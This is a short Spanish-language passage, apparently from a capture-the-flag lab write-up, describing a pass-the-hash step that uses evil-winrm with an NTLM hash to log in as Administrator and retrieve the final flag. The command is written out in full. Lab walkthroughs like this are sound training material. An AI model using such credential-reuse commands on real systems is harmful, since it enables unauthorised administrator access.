 - Usamos este hash `NTLM` para acceder via Winrm como el usuario "Administrator":

```bash
$evil-winrm -i 10.129.165.120 -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE
```

- Seremos `Administrator` y podremos encontrar la última flag en el directorio `"C:\Users\Administrator\Documents> cd /Users/Administrator/Desktop"`
